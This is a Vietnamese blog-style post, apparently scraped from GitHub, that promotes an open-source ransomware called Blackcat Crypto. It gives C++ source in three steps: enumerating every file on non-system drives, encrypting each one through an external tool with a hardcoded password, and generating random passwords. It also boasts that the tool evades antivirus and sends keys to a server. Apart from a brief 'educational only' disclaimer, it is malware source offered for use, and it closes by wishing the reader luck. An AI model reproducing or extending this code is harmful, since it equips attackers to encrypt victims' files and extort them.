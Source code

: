 ```yaml
---
title: Mã Độc Blackcat Crypto
date: 23/06/2021
layout: single
--- 
```



## Mô Tả 
Khuyến cáo công cụ chỉ mang tính chất giáo dục, không sử dụng các mục đích vi phạm pháp luật, tôi và tác giả của bài viết này sẽ không chịu trách nhiệm với hành động của các bạn với mục đích bất hợp pháp nào Cảm Ơn! 

Blackcat Crypto là Crypto-Locker mã nguồn mở. Blackcat Crypto được phát triển bằng Visual C ++. Nó có các tính năng mã hóa tất cả các tập tin, khóa hệ thống và gửi các khóa trở lại máy chủ. Chức năng đa luồng giúp công cụ này mã hóa nhanh hơn.

Khó có thể bị phát hiện bởi Công cụ chống virus.

Sử dụng thuật toán mã hóa 256-bit mạnh mẽ, Khi một tệp được mã hóa, Tệp sẽ hoàn toàn vô dụng nếu không có mật khẩu. Nó chỉ đơn giản là không thể đọc được [ajayrandhawa/Cryptolocker](https://github.com/ajayrandhawa/Cryptolocker)



## Đặc trưng
1. Mã hóa AES mạnh mẽ.
2. Chức năng hệ thống khóa.
3. Mã hóa đa luồng.


![](https://raw.githubusercontent.com/ajayrandhawa/Cryptolocker/master/ezgif-1-e99b3d2b6b39.gif)
 
## Bước 1 (Fetch files)
Lấy tất cả các tệp từ tất cả các ổ đĩa để mã hóa chúng.

Đây là chương trình Visual C ++ lấy tất cả danh sách thư mục & tệp trong ổ đĩa và lưu trữ đường dẫn trong tệp văn bản để mã hóa sử dụng sau này. Tôi sử dụng thư viện Boost C ++ để lấy danh sách tất cả các tệp. Trước tiên hãy thiết lập thư viện Boost để biên dịch chương trình.

![Language](https://img.shields.io/badge/Lang-c++-blue.svg)

```cpp
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

    int dr_type = 99;
    char dr_avail[MAX];
    char *temp = dr_avail;

    /* 1st we fill the buffer */
    GetLogicalDriveStrings(MAX, dr_avail);
    while (*temp != NULL) { // Split the buffer by null
        dr_type = GetDriveType(temp);

        char skip[10] = "C:\\";

        if (dr_type == 3 && temp[0] != 'C') {

            boost::system::error_code dir_error;

            for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
                if (dir_error.value()) {
                    cerr << "Error accessing file: " << dir_error.message() << endl;
                }
                else {
                    cout << dir->path() << endl;
                    out_file << dir->path() << "\n";
                }
            }
        }
        temp += lstrlen(temp) + 1;
    }
    out_file.close();
    system("pause");
```

## Bước 2 (Encrypt files)
Trước tiên,  lấy từng đường dẫn tệp từ "data.txt" và gửi tới công cụ crypy này với mã hóa kiểu và mật khẩu. bạn cũng có thể nhúng tất cả chương trình này vào vòng lặp trên để lấy đường dẫn và mã hóa dữ liệu một cách đệ quy.

```cpp
out_file.open("data.txt", ios::in);
    string line;
    while (out_file.good()) {
        getline(out_file, line);
        cout << line << endl;
        std::string cmmd = "crpt.exe -e -p 4321 ";
        cmmd += line;
        system(cmmd.c_str());
    }

```
## Bước 3 (Create Long String Complex Password Function)
Gửi độ dài đến hàm và hàm trả về mật khẩu phức tạp dài được tạo mà bạn có thể sử dụng để mã hóa.
```cpp
string RandomString(int len)
{
    srand(time(0));
    string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    string newstr;
    int pos;
    while (newstr.size() != len) {
        pos = ((rand() % (str.size() - 1)));
        newstr += str.substr(pos, 1);
    }
    return newstr;
}

```

## Bài viết được chia sẻ bởi tác giả [ajayrandhawa](https://github.com/ajayrandhawa/)

## Chúc may mắn :D

